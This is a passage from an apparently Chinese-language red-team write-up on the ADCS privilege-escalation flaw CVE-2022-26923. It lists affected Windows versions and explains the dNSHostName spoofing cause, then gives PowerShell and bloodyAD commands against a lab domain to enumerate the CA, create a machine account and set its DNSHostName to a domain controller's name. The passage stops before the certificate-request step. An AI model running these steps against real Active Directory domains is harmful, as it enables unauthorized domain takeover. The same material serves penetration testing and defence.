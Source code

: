     
    ### （向右滑动、查看更多）

##  

##  **  0x08ADCS(CVE-2022-26923) **

  
 **漏洞适用** **：** **影响范围：** windows 2008-2022。

    
          *   * 
    
    
    
    Windows Server 2012 R2        Windows RT 8.1             Windows 8.1                Windows Server 2016             Windows 10               Windows 10 Version 21H2      Windows 11              Windows Server, version 20H2Windows 10 Version 20H2       Windows Server 2022     Windows 10 Version 21H1       Windows 10 Version 1909      Windows Server 2019        Windows 10 Version 1809

### （向右滑动、查看更多）

``

  
 **漏洞原因：**  
由于计算机账户中的dNSHostName不具有唯一性，可以对其进行伪造，冒充高权限的域空机器账户，实现 **权限提升** 的效果  
 **漏洞利用条件：**

  1. 能够创建机器账户（或拥有某机器账户的控制权）
  2. 对机器账户具有修改属性的权限

    
          * 
    
    
    
    powershell Get-ChildItem Cert:\LocalMachine\Root\        #列出本地机器账户的证书,用于发现CA名称

### （向右滑动、查看更多）

  

``

    
          *   *   *   *   *   * 
    
    
    
    #https://github.com/CravateRouge/bloodyAD# 创建机器账户python3 bloodyAD.py -d redteam.lab -u ken -p '123.com' --host 10.10.2.20 addComputer CPT01 'Passw0rd'  
    # 设置dNSHostNamepython3 bloodyAD.py -d redteam.lab -u ken -p '123.com' --host 10.10.2.20 setAttribute 'CN=CPT01,CN=Computers,DC=redteam,DC=lab' DNSHostName '["DC2016.redteam.lab"]'

### （向右滑动、查看更多）

  
